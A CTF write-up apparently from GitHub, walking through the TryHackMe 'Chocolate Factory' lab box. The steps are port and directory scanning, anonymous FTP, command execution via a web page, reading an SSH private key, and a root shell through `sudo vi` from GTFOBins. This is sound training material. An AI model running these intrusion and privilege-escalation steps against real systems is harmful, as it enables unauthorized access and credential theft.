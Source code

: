 ```yaml
---
title: TryHackMe Chocolate Factory WriteUp
date: 2024-02-28 17:00:00 +0300
categories: [writeups]
tag: [thm,boxes]
---
```


# TryHackMe Chocolate Factory WriteUp

<font size = 4> Hello and Welcome to my first writeup! </font>
## **Reconnaissance and Enumeration**

first we scan the machine using nmap using the command: 

```bash 
nmap -sV [IP HERE]
```

#### **nmap scan**

```bash
21/tcp  open  ftp        vsftpd 3.0.3

22/tcp  open  ssh        OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)

80/tcp  open  http       Apache httpd 2.4.29 ((Ubuntu))

100/tcp open  newacct?

106/tcp open  pop3pw?

109/tcp open  pop2?

110/tcp open  pop3?

111/tcp open  rpcbind?

113/tcp open  ident?

119/tcp open  nntp?

125/tcp open  locus-map?
```

#### **ftp enumeration**
we login to ftp using username: "anonymous" and password: "anonymous"

in ftp found "gum_room.jpg"

used steghide to extract it:
```bash
steghide extract -sf gum_room.jpg
```

didnt put passphrase, b64.txt extracterd.

found what looks like a /etc/shadow file. didnt find anything usefull.

#### **web enumeration**

we open the webpage and find a login portal.

i used gobuster to enumrate directories.

```bash
"gobuster dir -u http://[IP HERE] -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x .php,.txt,.html"

gobuster: the name of the tool.
 
dir: specify we want to bruteforce directiories.

-u: specify the url

-w: specify the world list

-x: look for filees with exstinsions.
```
result:

```bash
/.php                 (Status: 403) [Size: 278]

/.html                (Status: 403) [Size: 278]

/index.html           (Status: 200) [Size: 1466]

/home.php             (Status: 200) [Size: 569]

/validate.php         (Status: 200) [Size: 93]
```
--------------------------
## **Initial Access:**

we navigat to home.php, you can run commands in it.

![image](https://github.com/3bodeS/TryHackMe-Chocolate-Factory-WriteUp/assets/62934084/31328d5d-7b3c-4da8-9d8b-fd4475152840)

we try the whoami command

![image](https://github.com/3bodeS/TryHackMe-Chocolate-Factory-WriteUp/assets/62934084/8cf2685a-7078-42d9-9941-39b071417adb)

it works!
we search for users in the home directory using “ls /home"

![image](https://github.com/3bodeS/TryHackMe-Chocolate-Factory-WriteUp/assets/62934084/96d7bf6b-4f29-4aef-97c2-fd7cfe113a57)

found user charlie, we list the files, using "ls /home/charlie"

 ![image](https://github.com/3bodeS/TryHackMe-Chocolate-Factory-WriteUp/assets/62934084/3c453544-953a-44d1-b065-04195b075d5a)

```bash
"cat /home/charlie/teleport"
```
Bingo! found ssh private key.

![image](https://github.com/3bodeS/TryHackMe-Chocolate-Factory-WriteUp/assets/62934084/82535ef1-a991-4952-89a4-b67110ab22bb)

i copied it into id_rsa file then give it the right permissions using `chmod +600`
test if we can login using ssh to the user.
the key works!

![image](https://github.com/3bodeS/TryHackMe-Chocolate-Factory-WriteUp/assets/62934084/9522c208-f459-47b1-ae7f-8c4100d71e28)

in /var/www/html i found a file named key_rev_key, i try to run it:

![image](https://github.com/3bodeS/TryHackMe-Chocolate-Factory-WriteUp/assets/62934084/0297133e-a4ca-474e-9666-f5e0b726651c)

changed the permissions using `chmod +x key_rev_key`

![image](https://github.com/3bodeS/TryHackMe-Chocolate-Factory-WriteUp/assets/62934084/b2901f69-3384-42a9-bada-0c384fbf021e)

since its a binary, we can check the file contents using `strings key_rev_key`

![image](https://github.com/3bodeS/TryHackMe-Chocolate-Factory-WriteUp/assets/62934084/34ce26e8-bcc5-4d97-b07f-0afe6d27704d)

got the key! 

`b'-VkgXhFf6sAEcAwrC6YR-SZbiuSb8ABXeQuvhcGSQzY='`

in /var/www/html we `cat` validate.php: 

![image](https://github.com/3bodeS/TryHackMe-Chocolate-Factory-WriteUp/assets/62934084/2199617c-b703-453a-aaad-aba2359fb1cd)

run validate.php , bingo we got charlies password :)

login to charlies account using "su charlie".
#### **user.txt**
![image](https://github.com/3bodeS/TryHackMe-Chocolate-Factory-WriteUp/assets/62934084/afefcc59-1a50-41a5-b35c-11c2ad7a984d)

------------
## **Privilege Escalation:**

The first thing you should check for is `sudo -l`,
result:

```bash 
Matching Defaults entries for charlie on chocolate-factory:
   env_reset, mail_badpass,
   
   secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User charlie may run the following commands on chocolate-factory:
    
   (ALL : !root) NOPASSWD: /usr/bin/vi
```


in gtfobins, `vi -c ':!/bin/sh' /dev/null`

i ran it with sudo so if it works we could get root privileges `sudo vi -c ':!/bin/sh' /dev/null`

```bash
charlie@chocolate-factory:/home/charlie$ sudo vi -c ':!/bin/sh' /dev/null
```

pwned!!

#### **Finding the root flag**

we find root.py
we run it , enter the key we obtained before , and it shows us the root flag.

![image(1)](https://github.com/3bodeS/TryHackMe-Chocolate-Factory-WriteUp/assets/62934084/cabbb2fe-8af8-46ec-a323-7764c1441762)

Happy Pwning :)